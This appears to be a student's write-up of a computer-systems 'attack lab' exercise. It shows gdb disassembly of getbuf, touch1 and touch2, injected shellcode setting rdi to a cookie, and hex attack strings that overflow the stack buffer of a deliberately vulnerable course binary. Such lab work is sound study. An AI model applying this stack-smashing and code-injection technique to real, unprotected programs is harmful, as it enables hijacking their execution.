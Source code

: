 # The attack lab 

## The attack 1

This one is simply a code injection, it will use t

he function `getbuf`
```nasm
(gdb) disas getbuf
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:	sub    $0x28,%rsp
   0x00000000004017ac <+4>:	mov    %rsp,%rdi
   0x00000000004017af <+7>:	call   0x401a40 <Gets>
   0x00000000004017b4 <+12>:	mov    $0x1,%eax
   0x00000000004017b9 <+17>:	add    $0x28,%rsp
   0x00000000004017bd <+21>:	ret
End of assembler dump.
```
So it will allcate a space of 32+8 = 40 bytes space. It more than 40 bytes is 
given, it will get more space from the stack .
So we need to attach the address of the function touch1 to the injection data.

```nasm
(gdb) disas touch1
Dump of assembler code for function touch1:
   0x00000000004017c0 <+0>:	sub    $0x8,%rsp
   0x00000000004017c4 <+4>:	movl   $0x1,0x202d0e(%rip)        # 0x6044dc <vlevel>
   0x00000000004017ce <+14>:	mov    $0x4030c5,%edi
   0x00000000004017d3 <+19>:	call   0x400cc0 <puts@plt>
   0x00000000004017d8 <+24>:	mov    $0x1,%edi
   0x00000000004017dd <+29>:	call   0x401c8d <validate>
   0x00000000004017e2 <+34>:	mov    $0x0,%edi
   0x00000000004017e7 <+39>:	call   0x400e40 <exit@plt>
End of assembler dump.
```

So the final input is 
```c
00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```
For the reason of little endian storage. So it is like this. 

## The attack 2
In this problem, we need to inject the data which contianis the cookie. 

Disassemble the function touch2, we can get the code below.

```nasm
Dump of assembler code for function touch2:
   0x00000000004017ec <+0>:	sub    $0x8,%rsp
   0x00000000004017f0 <+4>:	mov    %edi,%edx
   0x00000000004017f2 <+6>:	movl   $0x2,0x202ce0(%rip)        # 0x6044dc <vlevel>
   0x00000000004017fc <+16>:	cmp    0x202ce2(%rip),%edi        # 0x6044e4 <cookie>
   0x0000000000401802 <+22>:	jne    0x401824 <touch2+56>
   0x0000000000401804 <+24>:	mov    $0x4030e8,%esi
   0x0000000000401809 <+29>:	mov    $0x1,%edi
   0x000000000040180e <+34>:	mov    $0x0,%eax
   0x0000000000401813 <+39>:	call   0x400df0 <__printf_chk@plt>
   0x0000000000401818 <+44>:	mov    $0x2,%edi
   0x000000000040181d <+49>:	call   0x401c8d <validate>
   0x0000000000401822 <+54>:	jmp    0x401842 <touch2+86>
   0x0000000000401824 <+56>:	mov    $0x403110,%esi
   0x0000000000401829 <+61>:	mov    $0x1,%edi
   0x000000000040182e <+66>:	mov    $0x0,%eax
   0x0000000000401833 <+71>:	call   0x400df0 <__printf_chk@plt>
   0x0000000000401838 <+76>:	mov    $0x2,%edi
   0x000000000040183d <+81>:	call   0x401d4f <fail>
   0x0000000000401842 <+86>:	mov    $0x0,%edi
   0x0000000000401847 <+91>:	call   0x400e40 <exit@plt>
End of assembler dump.
```
The touch2's parameter is `val`, this val is storaged in the `rdi`, so our target 
is to set the `rdi` to be `cookie`

In this way, we can do like this 

使用汇编生成一段攻击的代码，将rdi的值设置为cookie，同时将touch2的地址push到我们的栈
中去。

```nasm
pushq $0x4017ec # The address of the touch2 
mov $0x59b997fa, %rdi 
ret
```

```nasm
> gcc -c hack.s
> ls
ans11.txt  ans21.txt  attacklab.pdf  ctarget  farm.c  hack.s   note.md     rtarget
ans1.txt   ans2.txt   cookie.txt     ctar.s   hack.o  hex2raw  README.txt
> objdump -d hack.o

hack.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	push   $0x4017ec
   c:	c3                   	ret    
```

> When you gdb the ctarget, you should `set args -q -i [file]` 
> Then  `b getbuf` , you can get the top of the stack 

```nasm
(gdb) disas
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:	sub    $0x28,%rsp
=> 0x00000000004017ac <+4>:	mov    %rsp,%rdi
   0x00000000004017af <+7>:	call   0x401a40 <Gets>
   0x00000000004017b4 <+12>:	mov    $0x1,%eax
   0x00000000004017b9 <+17>:	add    $0x28,%rsp
   0x00000000004017bd <+21>:	ret
End of assembler dump.
(gdb) info r rsp
rsp            0x5561dc78          0x5561dc78
```
So the attack string should be
```c
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
78 dc 61 55
```

In the code, it will return to the top of the stack. Then it will 
execute the hack code. The `edi` will be like the cook,and it will be push 
into the stack. 
